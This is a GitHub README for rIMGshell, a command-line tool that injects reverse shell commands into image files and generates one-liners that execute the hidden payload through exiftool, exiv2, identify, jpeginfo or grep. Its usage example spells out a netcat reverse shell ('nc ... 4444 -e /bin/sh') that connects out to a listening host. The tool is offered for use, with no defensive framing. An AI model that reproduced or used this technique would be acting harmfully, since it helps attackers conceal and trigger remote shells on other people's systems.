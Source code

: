 # rIMGshell

```
# rIMGshell

![GitHub](https://img.shields.io/github/license/git5loxosec/rIMGshell)

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods to exploit it.

## Features

- Inject reverse shell commands into image files.
- Generate one-liner execution methods for various tools.
- Choose from multiple one-liner execution methods.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell.git
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

## One-Liner Execution Methods

- **exiftool-one-liner:** Injected image can be executed with exiftool.
- **exiv2-one-liner:** Injected image can be executed with exiv2.
- **identify-one-liner:** Injected image can be executed with identify.
- **file-grep-one-liner:** Injected image can be executed with file and grep.
- **jpeginfo-grep-one-liner:** Injected image can be executed with jpeginfo and grep.

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request.

## License

This project is licensed under the [MIT License](LICENSE).
```
